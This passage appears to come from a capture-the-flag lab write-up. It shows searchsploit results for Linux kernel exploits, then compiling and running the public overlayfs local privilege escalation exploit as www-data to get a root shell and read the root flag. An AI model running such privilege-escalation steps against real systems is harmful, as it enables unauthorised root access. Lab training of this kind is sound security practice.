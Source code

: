 Linux Kernel < 4.13.1 - BlueTooth Buffer Overflow (PoC)                            | linux/dos/42762.txt
Linux Kernel < 4.13.9 (Ubuntu 16.04 / Fedora 27) - Local Privilege Escalation      | linux/local/45010.c
Linux Kernel < 4.14.rc3 - Local Denial of Service                                  | linux/dos/42932.c
Linux Kernel < 4.15.4 - 'show_floppy' KASLR Address Leak                           | linux/local/44325.c
Linux Kernel < 4.16.11 - 'ext4_read_inline_data()' Memory Corruption               | linux/dos/44832.txt
Linux Kernel < 4.17-rc1 - 'AF_LLC' Double Free                                     | linux/dos/44579.c
Linux Kernel < 4.4.0-116 (Ubuntu 16.04.4) - Local Privilege Escalation             | linux/local/44298.c
Linux Kernel < 4.4.0-21 (Ubuntu 16.04 x64) - 'netfilter target_offset' Local Privi | linux_x86-64/local/44300.c
Linux Kernel < 4.4.0-83 / < 4.8.0-58 (Ubuntu 14.04/16.04) - Local Privilege Escala | linux/local/43418.c
Linux Kernel < 4.4.0/ < 4.8.0 (Ubuntu 14.04/16.04 / Linux Mint 17/18 / Zorin) - Lo | linux/local/47169.c
Linux Kernel < 4.5.1 - Off-By-One (PoC)                                            | linux/dos/44301.c
----------------------------------------------------------------------------------- ---------------------------------
Shellcodes: No Results </code></pre>

this one may work, I'm going to copy the file to the victim machine
<pre><code> Linux Kernel 3.13.0 < 3.19 (Ubuntu 12.04/14.04/14.10/15.04) - 'overlayfs' Local Pr | linux/local/37292.c </code></pre>

when I try to execute the code, I get the following error message

indicates that the gcc compiler cannot find the cc1 program, which is an essential part of the C compiler. This usually happens when the package containing the tools needed to compile C code is missing, or if the compilation environment is not configured correctly.

Fixing it is very simple, we only need to fix the PATH
<pre><code> www-data@ubuntu:/tmp$ gcc exploit.c -o exploit
gcc exploit.c -o exploit
gcc: error trying to exec 'cc1': execvp: No such file or directory </code></pre>

<pre><code> www-data@ubuntu:/tmp$ export PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin </code></pre>

now the exploit ran without problems and we have access to the root flag
<pre><code> www-data@ubuntu:/tmp$ ./exploit
./exploit
spawning threads
mount #1
mount #2
child threads done
/etc/ld.so.preload created
creating shared library
sh: 0: can't access tty; job control turned off
# whoami
root

# cat /root/root.txt
THM{} </code></pre>


